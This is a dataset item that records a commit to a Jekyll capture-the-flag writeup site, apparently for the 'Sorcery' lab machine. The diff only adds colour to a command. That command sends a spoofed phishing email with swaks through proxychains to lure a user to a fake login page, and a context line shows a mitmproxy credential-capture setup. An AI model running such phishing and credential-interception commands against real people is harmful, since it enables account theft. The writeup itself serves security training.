

Before and after one commit to Respilot/writeup, a Jekyll site: the page built from _writeups/sorcery.md, in a window 1280 px wide. Shown: the top 845 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Colorize Sorcery phishing command

````diff
--- a/_writeups/sorcery.md
+++ b/_writeups/sorcery.md
@@ -33,9 +33,7 @@ sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pe
 
 Send a phishing email to capture credentials:
 
-```
-proxychains4 -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"
-```
+<pre><code><span style="color:#00ffff">└──╼[👾]~/machine/guardian $</span> <span style="color:#ffff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
 
 Extract the captured credentials from the proxied session:
 
````
